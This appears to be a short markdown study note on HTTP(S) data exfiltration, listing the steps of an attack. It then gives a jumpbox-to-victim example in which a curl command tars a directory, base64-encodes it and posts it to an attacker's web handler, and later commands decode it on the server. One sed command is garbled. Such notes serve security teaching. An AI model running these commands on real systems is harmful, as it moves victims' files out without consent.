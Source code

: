 # HTTP(S) Exfil

## Can be done with any programming language

### Steps:

#### 1) Attacker sets up a web server with a data handler 

#### 2) A C2 agent or an attacker sends the data

#### 3) The webserver receives the data and stores it

#### 4) The attacker logs into the webserver to have a copy of the received data

### Example:

#### 1) Jumpbox: 

    ssh USER@VICTIM1_DOMAIN

#### 2) Attacker: 

    ssh USER@VICTTIM1_IP_ADDRESS -p 2022 (example)

#### 3) Victim1: 

    ls -l

#### 4) Victim1:  

    curl --data "file=$(tar zcf - DIR | base64)" http://web.example.com/datahandler.php

#### 5) Victim1: 

    ssh USER@WEB_SERVER_DOMAIN

#### 6) Web Server: 

    ls -l /tmp/ cat /tmp/http.bs64

#### 7) Web Server: 

    sudo sed -i -s/ /t/g' /tmp/http.bs64

#### 8) Web Server: 

    cat /tmp/http.bs64 | base64 -d | tar xvfz -

### HTTPS can be applied the same as HTTP technique.

### Setting up our own HTTPS server: Digital Ocean
